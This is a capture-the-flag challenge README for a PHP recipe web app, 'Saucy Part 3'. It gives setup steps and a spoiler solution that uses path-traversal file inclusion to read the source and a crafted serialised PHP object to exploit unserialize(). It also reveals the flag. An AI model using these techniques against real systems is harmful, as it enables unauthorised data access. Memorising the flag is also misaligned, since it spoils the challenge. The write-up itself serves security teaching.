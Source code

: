 # Saucy Part 3

## Overview

Built by Mac

A web app exploring a vulnerability allowing the viewing of the source code, and a classic OWASP vulnerability providing the solution. Requires some code analysis and knowledge of common web vulnerabilities to solve.

<details>

<summary>Spoilers</summary>

The challenge is a PHP web app with an LFI revealing the source code and a PHP deserialisation vulnerability. Players must create a 'recipe recipe' that is pulled down from the database and that reads a second recipe from the database when it is unserialised, which contains the flag.

</details>

## Deploy This Challenge Manually

### Install MySQL

```bash
$ sudo apt install mysql-server
```

Start service:

```bash
$ sudo service mysql start
```

*Note:* if using WSL, you may get a failed to start message. This is because windows may have a similar `mysql.exe` process running that binds to same port. Close this in task manager to fix the error. You may also need to run the following:

```bash
$ sudo service mysql stop
$ sudo usermod -d /var/lib/mysql/ mysql
```

Setup MySQL:

```bash
$ sudo mysql_secure_installation
```

Install the MySQL PHP library:

```bash
$ sudo apt install php-mysql
```

### Create a conf_secret.php file

Create a `php` file with the credentials to your local MySQL database, or another database you're connecting to:

```php
<?php

$server = 'localhost';
$username = 'username';
$password = 'password';
$database = 'recipes';

?>
```

### Seed the Database

Run the following command, supplying the `username` and `password` you set:

```bash
$ mysql -u [username] -p < seed.sql
```

### Start the Challenge

Run the PHP server:

```bash
php -S locahost:8002
```

Visit [http://localhost:8002](http://localhost:8002)

(*note:* when we deployed, we also had to remove sensitive files from the system, such as `.git` folders, the `README.md` file, and `gen-object.php`, which was used for testing the challenge)

## Solution

<details>

<summary>Spoilers</summary>

Visiting the page, we see it seems to be some sort of web app for viewing and creating recipes. If we try searching for `horseradish-sauce.txt` as suggested, we get a recipe for horseradish sauce back.

We can also read recipes from the database by ID - let's try an ID of 1 by visiting `/get-recipe.php` with the `?id=1` parameter... We get a 'secret recipe' back - but it seems to be encrypted!

We can also use the third option to 'build' a recipe using a string that's saved in the database. This is especially interesting - giving it a random string takes us to the `get-recipe.php` page also, but this time with a `string_id` parameter. Supplying `1` gives us an encrypted recipe for mayonnaise.

Let's try and find out more about how the app works. The fact we have to specify `.txt` when reading a recipe file is interesting - that suggests we may be directly accessing the filesystem. Can we get an LFI?

The source has a message for developers:

```html
<!-- DEVS: See code for retrieving recipes in get-recipe.php -->
<!-- DEVS: See code for submitting new recipes in create-recipe.php -->
```

We can try reading one of these files - after a bit of experimenting, supplying `../get-recipe.php` works! The `..` operator lets us go up a directory, presumably from a directory storing recipe `.txt` files to the main directory where code is stored.

We can now arbitrarily read the web application code! We could also use this to poke around for sensitive files - perhaps database creds, or SSH keys - but I know this challenge doesn't involve remote access to the database or webserver itself, so I won't go into doing that.

`create-recipe.php` shows we can insert data into the database:

```php
$recipe_string = $_GET["recipe_recipe"];

//check they're submitting a Secret Recipe class
if(strpos($recipe_string, 'O:12:"SecretRecipe"') !== false) {
    //insert into recipe_strings database
    error_log("Inserting");

    Database::initialize();

    $stmt = Database::$conn->prepare("INSERT INTO recipe_strings (recipe_recipe) VALUES (?)");

    // execute statement with submitted string

    $stmt->bind_param("s", $recipe_string);

    $stmt->execute();

    // close statement
    $stmt->close();

    // get ID of last item
    $id = Database::$conn->insert_id;

    echo("Thanks for submitting! Your ID: ". $id);
}
```

It looks like it is expecting a serialised object of the `SecretRecipe` class, as it checks our string contains `O:12:"SecretRecipe"`. This is an indicator that there may be some deserialisation down the line - perhaps in the `get-recipe.php` file?

If we give the program a `string_id`, we can pull down a serialised string from the database:

```php
elseif ($_GET['string_id']){
    //getting recipe string from DB by ID, constructing recipe

    error_log("Getting recipe string by ID");

    error_log($_GET['string_id']);

    $id = intval($_GET['string_id']);

    //get recipe string from DB based on ID
    Database::initialize();

    $stmt = Database::$conn->prepare("SELECT recipe_recipe FROM recipe_strings WHERE id = ?");

    // execute statement with ID variable

    $stmt->bind_param("i", $id);

    $stmt->execute();

    $stmt->bind_result($recipe_recipe);

    //get results

    while ($stmt->fetch()) {

        error_log("Recipe string from DB: " . $recipe_recipe);

        // deserialise recipe string

        unserialize($recipe_recipe);
    }

    // close statement
    $stmt->close();
}
```

Crucially, this is then deserialised (by the `unserialize()` call), and the wakeup function then reads the recipe from the database based on its ID:

```php
public function __wakeup() {
    //grab from DB when deserialised
    error_log("Woken up - getting from DB");

    $this->get_from_db();
}
```

This suggests we may be able to create a serialised `SecretRecipe` object that grabs the encrypted recipe - but how can we exploit this?

Well, there is an `if` statement that checks the value of the object's `$encrypted` variable - this determines whether the recipe is hashed or not:

```php
while ($stmt->fetch()) {
    if ($this->encrypted) {
        echo("<h3>Title</h3>");
        echo("<p>" . $recipe_title . "</p>");
        echo("<h3>Recipe</h3>");
        echo("<p>" . hash('sha256', $recipe_text) . "</p>");
    }
    else {
        echo("<h3>Title</h3>");
        echo("<p>" . $recipe_title . "</p>");
        echo("<h3>Recipe</h3>");
        echo("<p>" . $recipe_text . "</p>");
    }
}
```

When we create a serialised PHP object, we have full control of its variables - so we can set our own object's `$encrypted` variable to `False`, like so:

```php
O:12:"SecretRecipe":4:{s:9:"encrypted";b:0;s:5:"title";s:4:"Test";s:8:"contents";s:4:"Test";s:2:"id";i:1;}
```

This is a serialised PHP object - the `O:12:"SecretRecipe"` string specifies its class, and the strings within the curly brackets specift the class variables. The important ones are  `"id";i:1`, specifying the integer `1` (the ID of the recipe we want to pull down), and `"encrypted";b:0`, specifying we want to set `$encrypted` to false.

If this doesn't make sense, you can learn more about deserialisation with a simpler example from my [demo on the topic](https://github.com/Twigonometry/Deserialisation-Demo).

Let's submit this at the `create-recipe.php` page, by visiting `http://localhost:5000/create-recipe.php?recipe_recipe=O:12:%22SecretRecipe%22:4:{s:9:%22encrypted%22;b:0;s:5:%22title%22;s:4:%22Test%22;s:8:%22contents%22;s:4:%22Test%22;s:2:%22id%22;i:1;}`.

Now we just need to trigger our deserialisation, by searching for our recipe string by ID... and voila - we have an unencrypted recipe!

```
1) Add c00k13s to a bowl 2) Mix in some syntactic sUg4R 3) Take two bYT3s
```

Now it just needs decoding... If we submit `sesh{c00k13s_sUg4R_bYT3s_bYT3s}`, we get the points!

</details>